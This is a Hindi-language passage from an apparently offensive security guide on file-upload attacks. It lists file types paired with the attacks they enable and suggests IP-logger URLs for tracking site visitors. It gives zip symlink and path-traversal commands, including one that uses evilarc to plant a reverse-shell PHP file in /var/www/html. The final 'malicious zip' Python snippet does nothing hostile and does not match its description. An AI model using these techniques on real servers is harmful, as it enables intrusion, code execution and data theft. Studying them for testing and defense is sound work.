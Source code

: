* यदि आप **वेब सर्वर को एक URL से छवि पकड़ने के लिए संकेत कर सकते हैं**, तो आप [SSRF](ssrf-server-side-request-forgery.md) का दुरुपयोग करने का प्रयास कर सकते हैं। यदि यह **छवि** किसी **सार्वजनिक** साइट में **सहेजी** जाएगी, तो आप [https://iplogger.org/invisible/](https://iplogger.org/invisible/) से एक URL निर्दिष्ट कर सकते हैं और **प्रत्येक आगंतुक की जानकारी चुरा सकते हैं**।

यहां एक शीर्ष 10 सूची है जिनके द्वारा आप अपलोड करके कुछ प्राप्त कर सकते हैं \(स्रोत से [लिंक](https://twitter.com/SalahHasoneh1/status/1281274120395685889)\):

1. **ASP / ASPX / PHP5 / PHP / PHP3**: वेबशेल / RCE
2. **SVG**: स्थायी XSS / SSRF / XXE
3. **GIF**: स्थायी XSS / SSRF
4. **CSV**: CSV इंजेक्शन
5. **XML**: XXE
6. **AVI**: LFI / SSRF
7. **HTML / JS** : HTML इंजेक्शन / XSS / ओपन रीडायरेक्ट
8. **PNG / JPEG**: पिक्सेल बाढ़ हमला \(DoS\)
9. **ZIP**: LFI के माध्यम से RCE / DoS
10. **PDF / PPTX**: SSRF / BLIND XXE

# ज़िप फ़ाइल स्वचालित रूप से डिकंप्रेस किए जाने वाले अपलोड

यदि आप एक ज़िप अपलोड कर सकते हैं जो सर्वर के अंदर डिकंप्रेस होगा, तो आप दो चीजें कर सकते हैं:

## सिंबलिंक

अन्य फ़ाइलों के लिए सॉफ़्ट लिंक्स को समर्पित एक लिंक अपलोड करें, फिर, डिकंप्रेस हुए फ़ाइलों तक पहुंचते हुए आप लिंकित फ़ाइलों तक पहुंचेंगे:
```text
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
```
## विभिन्न फ़ोल्डरों में डीकंप्रेस करें

डीकंप्रेस किए गए फ़ाइलें अप्रत्याशित फ़ोल्डरों में बनाई जाएंगी।

आसानी से सोचा जा सकता है कि यह सेटअप ख़राब फ़ाइल अपलोड के माध्यम से ओएस स्तर के कमांड निष्पादन से सुरक्षित है, लेकिन दुर्भाग्य से यह सच नहीं है। क्योंकि ZIP आर्काइव प्रारूप हार्कियर्कल कंप्रेशन को समर्थित करता है और हम उच्च स्तरीय निर्देशिकाओं का संदर्भ भी कर सकते हैं, हम लक्ष्य अनुप्रयोग की डीकंप्रेशन सुविधा का दुरुपयोग करके सुरक्षित अपलोड डायरेक्टरी से बाहर निकल सकते हैं।

इस तरह की फ़ाइलें बनाने के लिए स्वचालित उत्पादन यहां मिल सकता है: [https://github.com/ptoomey3/evilarc](https://github.com/ptoomey3/evilarc)
```python
python evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```
कुछ पायथन कोड एक दुष्ट ज़िप बनाने के लिए:

```python
import zipfile

# Create a new zip file
zip_file = zipfile.ZipFile('malicious.zip', 'w')

# Add a malicious file to the zip
zip_file.write('malicious_file.exe')

# Close the zip file
zip_file.close()
```
